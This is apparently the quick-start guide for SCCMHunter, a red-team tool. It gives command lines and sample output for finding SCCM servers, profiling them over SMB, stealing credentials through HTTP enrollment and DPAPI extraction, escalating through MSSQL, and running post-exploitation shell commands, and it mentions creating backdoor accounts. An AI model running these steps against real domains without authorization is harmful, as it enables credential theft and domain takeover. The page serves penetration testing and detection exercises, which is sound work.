

This guide walks you through a complete SCCM assessment workflow using SCCMHunter, from initial discovery to exploitation and post-exploitation activities.

<Info>
This quick start assumes you have already completed the [installation process](./installation) and have valid domain credentials.
</Info>

## Assessment Workflow



## Step 1: LDAP Discovery

Start by discovering SCCM infrastructure in the target domain:

<CodeGroup>
```bash Basic Discovery
python3 sccmhunter.py find -d contoso.com -dc-ip 192.168.1.10 -u lowpriv -p password
```

```bash With Kerberos
python3 sccmhunter.py find -d contoso.com -dc-ip 192.168.1.10 -k --no-pass
```

```bash LDAPS with Group Resolution
python3 sccmhunter.py find -d contoso.com -dc-ip 192.168.1.10 -u lowpriv -p password -ldaps -resolve
```
</CodeGroup>

<Accordion title="Expected Discovery Output">
```text
[+] Beginning SCCM Infrastructure Discovery
[+] Checking for Schema Extension Objects
    [+] Found System Management Container
    [+] DACL Analysis Complete - 3 computers with FullControl
[+] Checking for Management Points
    [+] Found Management Point: SCCM01.contoso.com
    [+] Found Management Point: SCCM02.contoso.com
[+] Checking for Distribution Points
    [+] Found PXE-Enabled DP: PXE01.contoso.com
[+] Keyword Search Results
    [+] Found 15 objects containing 'SCCM'
    [+] Found 8 objects containing 'MECM'
```
</Accordion>

## Step 2: SMB Profiling

Profile the discovered targets to understand their roles and attack surface:

<CodeGroup>
```bash Profile All Targets
python3 sccmhunter.py smb -d contoso.com -u lowpriv -p password
```

```bash Profile Specific Targets
python3 sccmhunter.py smb -d contoso.com -u lowpriv -p password -targets "SCCM01.contoso.com,SCCM02.contoso.com"
```

```bash Fast Scan Mode
python3 sccmhunter.py smb -d contoso.com -u lowpriv -p password -threads 20
```
</CodeGroup>

<Accordion title="Expected Profiling Output">
```text
[+] Beginning SMB Profiling
[+] Target: SCCM01.contoso.com
    [+] SMB Signing: Disabled
    [+] SCCM Role: Site Server
    [+] MSSQL Service: Running
    [+] SMS Provider: True
    [+] Default Shares: SMS_DP$, SMS_PKG$
[+] Target: PXE01.contoso.com
    [+] SMB Signing: Enabled
    [+] SCCM Role: Distribution Point
    [+] PXE Variables: Available
    [+] Default Shares: REMINST
```
</Accordion>

## Step 3: Target Analysis

Review the discovery and profiling results to identify attack vectors:

<CodeGroup>
```bash Display Results (JSON)
python3 sccmhunter.py show -j results.json
```

```bash Display Results (Neo4j)
python3 sccmhunter.py show --neo4j -uri bolt://localhost:7687 -username neo4j -password password
```

```bash Export for Manual Analysis
python3 sccmhunter.py show -o targets.csv
```
</CodeGroup>

<Card title="Target Prioritization" icon="crosshairs">
**High Priority Targets:**
- Site Servers with SMB signing disabled
- Management Points with exposed HTTP services
- Distribution Points with PXE variables
- MSSQL instances with site database access

**Attack Vectors to Consider:**
- HTTP client enrollment for credential theft
- MSSQL relay attacks for privilege escalation
- DPAPI extraction from Distribution Points
- SMB relay attacks against unsigned targets
</Card>

## Step 4: Exploitation

### Option A: HTTP Client Enrollment

Target HTTP-based client enrollment for credential extraction:

<CodeGroup>
```bash Basic HTTP Attack
python3 sccmhunter.py http -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com
```

```bash With Custom User-Agent
python3 sccmhunter.py http -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com -agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
```
</CodeGroup>

### Option B: MSSQL Privilege Escalation

Leverage MSSQL access for privilege escalation:

<CodeGroup>
```bash MSSQL Enumeration
python3 sccmhunter.py mssql -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com
```

```bash Query Stacking
python3 sccmhunter.py mssql -d contoso.com -u lowpriv -p password -target SCCM01.contoso.com -stacked
```
</CodeGroup>

### Option C: DPAPI Secret Extraction

Extract Network Access Account credentials:

<CodeGroup>
```bash WMI-Based Extraction
python3 sccmhunter.py dpapi -d contoso.com -u lowpriv -p password -target PXE01.contoso.com
```

```bash Disk-Based Extraction
python3 sccmhunter.py dpapi -d contoso.com -u lowpriv -p password -target PXE01.contoso.com -method disk
```
</CodeGroup>

## Step 5: Post-Exploitation

If you've successfully gained administrative access, use the admin module:

<CodeGroup>
```bash Interactive Shell
python3 sccmhunter.py admin -u administrator -p newpassword -ip SCCM01.contoso.com
```

```bash Credential Extraction
SCCMHunter> get_creds
```

```bash Situational Awareness
SCCMHunter> administrators
SCCMHunter> console_users
SCCMHunter> ps
```
</CodeGroup>

## Common Workflows

<Accordion title="Red Team Engagement">
**Objective**: Gain domain admin through SCCM compromise

1. **Discovery**: `find` module to map SCCM infrastructure
2. **Profiling**: `smb` module to identify attack surface
3. **Exploitation**: `http` or `mssql` modules for initial access
4. **Escalation**: `admin` module for privilege escalation
5. **Persistence**: Create backdoor accounts and maintain access
</Accordion>

<Accordion title="Penetration Test">
**Objective**: Assess SCCM security posture

1. **Enumeration**: Comprehensive discovery with all modules
2. **Vulnerability Assessment**: Identify misconfigurations and weaknesses
3. **Proof of Concept**: Demonstrate exploitability without damage
4. **Documentation**: Export results for detailed reporting
5. **Remediation**: Provide specific hardening recommendations
</Accordion>

<Accordion title="Purple Team Exercise">
**Objective**: Test detection capabilities

1. **Baseline**: Establish normal SCCM activity patterns
2. **Attack Simulation**: Execute controlled attack scenarios
3. **Detection Analysis**: Verify security monitoring effectiveness
4. **Tuning**: Adjust detection rules and monitoring systems
5. **Validation**: Re-test to confirm improved detection
</Accordion>

## Troubleshooting Common Issues

<Accordion title="Authentication Failures">
**Symptoms**: "Authentication failed" or "Access denied" errors

**Solutions**:
- Verify credentials are correct and account is not locked
- Check domain name format (use FQDN)
- Try different authentication methods (-k for Kerberos)
- Ensure network connectivity to domain controller
</Accordion>

<Accordion title="No SCCM Infrastructure Found">
**Symptoms**: Empty results from find module

**Solutions**:
- Verify you're targeting the correct domain
- Check if SCCM is actually deployed in the environment
- Try the `-resolve` flag for nested group enumeration
- Confirm you have appropriate LDAP read permissions
</Accordion>

<Accordion title="SMB Connection Issues">
**Symptoms**: SMB profiling fails or times out

**Solutions**:
- Check SMB signing requirements and compatibility
- Verify network connectivity and firewall rules
- Try reducing thread count with `-threads` parameter
- Use specific target lists instead of broad scanning
</Accordion>

## Next Steps

<CardGroup cols={2}>
  <Card title="LDAP Enumeration" icon="magnifying-glass" href="../enumeration/find">
    Deep dive into LDAP discovery techniques and advanced options
  </Card>

  <Card title="HTTP Exploitation" icon="globe" href="../exploitation/http">
    Learn advanced HTTP client enrollment attack techniques
  </Card>

  <Card title="MSSQL Attacks" icon="database" href="../exploitation/mssql">
    Master MSSQL-based privilege escalation methods
  </Card>

  <Card title="Post-Exploitation" icon="crown" href="../post-exploitation/admin-overview">
    Explore administrative access and lateral movement capabilities
  </Card>
</CardGroup>

## Best Practices

<Card title="Operational Security" icon="shield">
- **Test in Labs First**: Always validate techniques in controlled environments
- **Minimize Impact**: Use read-only operations when possible during assessments
- **Document Everything**: Maintain detailed logs of activities and findings
- **Coordinate with Teams**: Communicate with IT and security teams during authorized testing
- **Clean Up**: Remove any temporary artifacts created during testing
</Card>